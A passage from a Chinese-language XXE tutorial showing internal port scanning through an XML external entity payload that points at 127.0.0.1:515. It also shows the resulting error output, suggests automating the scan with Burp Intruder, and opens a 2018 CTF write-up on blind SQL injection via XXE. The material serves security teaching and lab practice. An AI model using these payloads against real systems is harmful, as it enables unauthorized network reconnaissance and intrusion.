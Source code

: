    ```python
       except:
   continue
   ```

   **返回结果：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%86%85%E7%BD%91%E6%8E%A2%E6%B5%8B%E7%BB%93%E6%9E%9C.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%86%85%E7%BD%91%E6%8E%A2%E6%B5%8B%E7%BB%93%E6%9E%9C.png)

   ### **实验四：HTTP 内网主机端口扫描**

   找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的，读者可以自行修改一下，当然除了这种方法，我们还能结合 burpsuite 进行端口探测

   **比如我们传入：**

   ```xml
   <?xml version="1.0" encoding="utf-8"?>  
   <!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
   <!ELEMENT data (#PCDATA)>  
   ]>
   <data>4</data>
   ```

   **返回结果：**

   ```
   javax.xml.bind.UnmarshalException  
    - with linked exception:
   [Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
   Exception Description: An error occurred unmarshalling the document  
   Internal Exception: ████████████████████████: Connection refused
   ```

   这样就完成了一次端口探测。如果想更多，我们可以将请求的端口作为 参数 然后利用 bp 的 intruder 来帮我们探测

   **如下图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/bp%20%E7%9A%84%E7%AB%AF%E5%8F%A3%E6%8E%A2%E6%B5%8B.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/bp%20%E7%9A%84%E7%AB%AF%E5%8F%A3%E6%8E%A2%E6%B5%8B.png)

   至此，我们已经有能力对整个网段进行了一个全面的探测,并能得到内网服务器的一些信息了，如果内网的服务器有漏洞，并且恰好利用方式在服务器支持的协议的范围内的话，我们就能直接利用 XXE 打击内网服务器甚至能直接 getshell（比如有些 内网的未授权 redis 或者有些通过 http get 请求就能直接getshell 的 比如 strus2）

   ### **实验五：内网盲注(CTF)**

   2018 强网杯 有一道题就是利用 XXE 漏洞进行内网的 SQL 盲注的,大致的思路如下：

   首先在外网的一台ip地址为 39.107.33.75:33899 的评论框处测试发现 XXE 漏洞，我们输入 xml 以及 dtd 会出现报错

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BC%BA%E7%BD%91%E6%9D%AFXXE1.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BC%BA%E7%BD%91%E6%9D%AFXXE1.png)
